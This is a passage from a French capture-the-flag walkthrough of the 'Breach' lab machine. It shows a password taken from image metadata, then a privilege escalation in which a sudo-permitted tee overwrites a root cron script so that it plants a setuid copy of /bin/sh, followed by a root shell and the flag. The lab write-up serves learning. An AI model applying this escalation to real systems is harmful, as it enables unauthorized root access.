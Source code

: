 ```shellsession
Comment                         : coffeestains
Image Size                      : 610x327
Megapixels                      : 0.199
```

Il permet de se connecter avec l'utilisateur `blumbergh`. Ce dernier dispose d'une autorisation spéciale pour faire un `tee` sur la tache planifiée de root que l'on a vu plus tôt.

```shellsession
milton@Breach:~$ su blumbergh 
Password: 
blumbergh@Breach:/home/milton$ sudo -l
Matching Defaults entries for blumbergh on Breach:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User blumbergh may run the following commands on Breach:
    (root) NOPASSWD: /usr/bin/tee /usr/share/cleanup/tidyup.sh
```

`tee` est un programme que j'utilise souvent avec `LinPEAS`. Il permet de ré-afficher l'output qu'il reçoit tout en l'écrivant en même temps dans un fichier.

Comme `LinPEAS` génère beaucoup d'information, le coupler avec `tee` me permet de voir l'output et fur et à mesure de l'exécution mais aussi de pouvoir lire les données deluis le fichier créé quand je le souhaite.

Ici je vais appeler directement `tee` sans pipe et taper le script que je veut sur l'entrée standard. Du au fonctionnement du programme, les données sont aussitôt affichées. C'est pour cela qu'elles apparaissen deux fois ici (mais dans le fichier elle n'y seront qu'une fois) :

```shellsession
blumbergh@Breach:/home/milton$ sudo /usr/bin/tee /usr/share/cleanup/tidyup.sh
#!/bin/sh
#!/bin/sh
cp /bin/sh /tmp/gotroot
cp /bin/sh /tmp/gotroot
chmod 4755 /tmp/gotroot
chmod 4755 /tmp/gotroot
blumbergh@Breach:/home/milton$ ls -l /tmp/gotroot 
-rwsr-xr-x 1 root root 121272 Nov  9 12:12 /tmp/gotroot
blumbergh@Breach:/home/milton$ /tmp/gotroot
# id
uid=1001(blumbergh) gid=1001(blumbergh) euid=0(root) groups=0(root),1001(blumbergh)
# cd /root
# ls -al
total 60
drwx------  4 root root  4096 Jun 12  2016 .
drwxr-xr-x 22 root root  4096 Nov  9 09:32 ..
-rw-------  1 root root   115 Jun 12  2016 .bash_history
-rw-r--r--  1 root root  3106 Feb 19  2014 .bashrc
drwx------  2 root root  4096 Jun  6  2016 .cache
-rw-r--r--  1 root root   840 Jun 11  2016 .flag.txt
-rw-r--r--  1 root root 23792 Jun  4  2016 flair.jpg
-rw-r--r--  1 root root   140 Feb 19  2014 .profile
drwxr-xr-x  2 root root  4096 Jun  5  2016 .rpmdb
-rw-r--r--  1 root root    66 Jun  4  2016 .selected_editor
# cat .flag.txt
-----------------------------------------------------------------------------------

______                     _     __   _____      _____ _          _____          _ 
| ___ \                   | |   /  | |  _  |    |_   _| |        |  ___|        | |
| |_/ /_ __ ___  __ _  ___| |__ `| | | |/' |______| | | |__   ___| |__ _ __   __| |
| ___ \ '__/ _ \/ _` |/ __| '_ \ | | |  /| |______| | | '_ \ / _ \  __| '_ \ / _` |
| |_/ / | |  __/ (_| | (__| | | || |_\ |_/ /      | | | | | |  __/ |__| | | | (_| |
\____/|_|  \___|\__,_|\___|_| |_\___(_)___/       \_/ |_| |_|\___\____/_| |_|\__,_|
```